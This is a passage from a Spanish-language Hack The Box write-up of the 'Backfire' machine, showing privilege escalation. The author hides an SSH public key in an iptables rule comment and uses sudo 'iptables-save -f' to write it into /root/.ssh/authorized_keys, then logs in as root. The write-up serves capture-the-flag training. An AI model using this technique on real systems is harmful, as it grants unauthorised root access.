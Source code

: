 ```terminal
sergej@backfire:~$ sudo iptables -S
-P INPUT ACCEPT
-P FORWARD ACCEPT
-P OUTPUT ACCEPT
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 5000 -j ACCEPT
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 5000 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 5000 -j REJECT --reject-with icmp-port-unreachable
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 7096 -j ACCEPT
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 7096 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 7096 -j REJECT --reject-with icmp-port-unreachable
-A INPUT -i lo -m comment --comment "
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOsyjZH2HTiLb61fHRWAVsuQBhOS7YslTji85AO3Vfkv kali@k4li
" -j ACCEPT
```

Finalmente utilizo iptables-save con la flag `-f` para guardar las reglas directamente en el archivo `/root/.ssh/authorized_keys`, aprovechando que el contenido generado incluirá la clave pública dentro del bloque de comentarios.

```terminal
sergej@backfire:~$ sudo /usr/sbin/iptables-save -f /root/.ssh/authorized_keys
```

Con la clave ya instalada como `root`, me conecto por SSH utilizando la clave privada correspondiente y obtengo acceso completo al sistema como superusuario.

```terminal
/home/kali/Documents/htb/machines/backfire:-$ ssh root@10.10.11.49
Enter passphrase for key '/home/kali/.ssh/id_ed25519': $tr0ngP@$$w0rd123

root@backfire:~# id
uid=0(root) gid=0(root) groups=0(root)

root@backfire:~# cat root.txt
```

> <a href="https://labs.hackthebox.com/achievement/machine/1521382/643" target="_blank">***Litio7 has successfully solved Backfire from Hack The Box***</a>
{: .prompt-info style="text-align:center" }
